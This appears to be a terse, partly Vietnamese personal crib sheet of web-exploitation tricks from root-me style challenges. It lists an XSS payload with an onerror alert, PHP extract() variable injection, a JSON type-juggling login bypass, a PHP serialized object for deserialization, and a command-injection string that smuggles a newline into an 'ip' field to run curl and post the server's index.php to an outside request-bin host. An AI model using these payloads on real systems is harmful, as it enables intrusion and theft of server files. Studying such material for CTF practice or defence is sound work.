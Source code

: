 
##kết thúc dự án , một phần vì lười , một phần sợ root-me ban =))

###;https://www.httpwatch.com/httpgallery/introduction/  http header
https://curl.haxx.se/docs/httpscripting.html#GET
`--><!-- ---> <img src=xxx:x onerror=javascript:alert(1)> -->`


hàm extract :  truyền biến trực tiếp thông qua url : ví dụ
```
url="http://xxx.com/?get=nnanaa

<?php
$get="notme"

echo $get ; // lúc trưa truyền thì in ra notme , khi get=jjjj in ra jjj
```

 meta http-equiv="refresh" content="1; url=https://www.w3schools.com/tags/att_meta_http_equiv.asp">\
 
 auth={"data":{"login":"a","password":"ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb"}}
 có thể ép kiểu true= {"login":true}
 
 
 ---
 ip=localhost%0Acurl -X POST -F file=@index.php https://requestbin.fullcontact.com/  blind commandline , in ra 1 file
 
 O:4:"test":2:{s:7:"jackpot";N;s:5:"enter";N;} , tạo giá trị null, obj , hoặc nan,


`%09` =1 tab

`%20` =1 space



